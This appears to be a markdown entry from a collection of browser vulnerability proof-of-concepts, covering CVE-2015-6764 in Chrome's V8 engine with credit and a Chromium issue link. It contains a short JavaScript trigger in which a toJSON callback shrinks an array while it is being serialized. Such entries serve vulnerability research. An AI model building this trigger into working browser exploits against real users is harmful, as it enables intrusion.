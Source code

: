 # CVE-2015-6764

- Date: Nov 2015
- Credit: Guang Gong of Qihoo 360 via pwn2own

## PoC

```javascript
var array = [];
var funky = {
  toJSON: function() { array.length = 1; return "funky"; }
};
for (var i = 0; i < 10; i++) array[i] = i;
array[0] = funky;
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=554946)

